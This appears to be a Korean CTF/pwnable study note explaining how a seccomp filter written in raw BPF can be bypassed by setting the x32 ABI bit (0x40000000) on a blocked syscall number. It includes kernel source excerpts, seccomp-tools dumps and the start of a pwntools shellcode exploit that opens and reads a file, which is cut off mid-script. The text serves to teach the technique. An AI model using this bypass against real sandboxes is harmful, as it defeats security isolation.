     - 호출하는 system call 번호가 **system call의 총 갯수를 초과하는지 확인**하고, 그렇지 않다면 system call을 호출한다.
- `do_syscall_x32`
    
    ```c
    static __always_inline bool do_syscall_x32(struct pt_regs *regs, int nr)
    {
    	/*
    	 * Adjust the starting offset of the table, and convert numbers
    	 * < __X32_SYSCALL_BIT to very high and thus out of range
    	 * numbers for comparisons.
    	 */
    	unsigned int xnr = nr - __X32_SYSCALL_BIT;
    	if (IS_ENABLED(CONFIG_X86_X32_ABI) && likely(xnr < X32_NR_syscalls)) {
    		xnr = array_index_nospec(xnr, X32_NR_syscalls);
    		regs->ax = x32_sys_call_table[xnr](regs);
    		return true;
    	}
    	return false;
    }
    ```
    
    - **호출하는 system call 번호에서** `__X32_SYSCALL_BIT`**(0x40000000)을 뺀 값을 이용해 system call을 호출**한다.

정리하자면, **x32 ABI**를 위한 system call을 호출할 때에는 **기존 system call의 번호에 0x40000000을 더한 값**을 사용한다.

따라서 원하는 system call이 SECCOMP에 의해 막혀있을 경우, `do_syscall_x32`에서 실행할 수 있으므로 **해당 시스템 콜의 번호에 0x40000000을 더한 값을 번호로 넣어 system call을 실행**한다.

### 라이브러리 함수를 사용할 때 vs BPF를 사용할 때

- **라이브러리 함수**를 사용할 때

```c
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
```

seccomp-tools를 이용해 라이브러리 함수를 사용해 SECCOMP를 적용한 binary를 분석해보면, 코드에서는 정의하지 않은 **비교문이 추가**되어 있다.

**system call 번호가 0x40000000이 넘지는 않는지 확인**하는 구문이 추가되어 있으므로, **앞서 말한 방식으로 SECCOMP를 bypass할 수 없다**.

- **BPF**를 사용할 때

```c
0003: 0x20 0x00 0x00 0x00000000  A = sys_number
0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
```

반면 **BPF**를 사용했을 경우는 위와 같은 비교문이 없으므로 **앞서 말한 방식의 exploit이 가능**하다.

### Exploit 예시

```python
from pwn import *

context.arch = 'x86_64'
p = process("./bypass_secbpf")

data = '''
mov rax, 2
or rax, 0x40000000
lea rdi, [rip+path]
xor rsi, rsi
syscall

mov rdi, rax
mov rsi, rsp
mov rdx, 0x1000
xor rax, rax
```